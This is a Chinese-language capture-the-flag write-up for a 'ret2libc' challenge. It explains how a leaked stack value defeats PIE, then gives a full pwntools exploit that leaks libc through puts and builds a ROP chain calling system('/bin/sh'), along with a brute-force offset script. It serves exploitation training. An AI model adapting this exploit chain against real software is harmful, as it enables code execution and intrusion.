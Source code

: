 # ret2libc 

## 文件分析

下载`ret2libc`, NX on, PIE on, RELRO full  
ghidra分析为64位程序

## 解题思路

main函数中先是scan了一个int，可以利用它来*泄露main的地址*以找到PIE偏移  
然后一个read提供*栈溢出*的空间  
和ciscn那题一样，就能完成ret2libc

## EXPLOIT

通过爆破获取main的偏移，如果打印出来的地址以0000结尾，则爆破成功

```python
# inserted in the code block below
for offset in range(8, 128, 8):
    sh = remote(???, 10022)
    sh.sendline(str(offset).encode())
    data = sh.recvline()
    data = sh.recvuntil(b'sh')
    pieBase = u64(data[-8:-2] + b'\0\0') - main
    print(hex(pieBase))
    sh.close()
```

```python
from pwn import *
sh = remote('???', 10022)
elf = ELF('ret2libc')

sh.sendline(b'56') # Locating address of main on stack
sh.recvline() # skip
data = sh.recvuntil(b'sh')

main = elf.symbols['main']
pieBase = u64(data[-8:-2] + b'\0\0') - main
putsPlt = pieBase + elf.plt['puts']
putsGot = pieBase + elf.got['puts']
popRdiAddr = pieBase + 0x923
mainAddr = pieBase + main

print(hex(pieBase))

# payload 1
sh.sendline(b'0'*0x18 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(mainAddr))

sh.recvuntil(b'shoot!\n') # skip
data = sh.recvline()

# 题中已给出libc
libcBase = u64(data[:6] + b'\0\0') - 0x80970
systemAddr = libcBase + 0x4f420
shstrAddr = libcBase + 0x1b3d88
retAddr = pieBase + 0x8bb

sh.sendline(b'0') # 埋伏我一手
# payload 2
sh.sendline(b'0'*0x18 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

## 本题获得的教训

由于远端libc的不同，main在stack上的地址也是不一样的

Done.
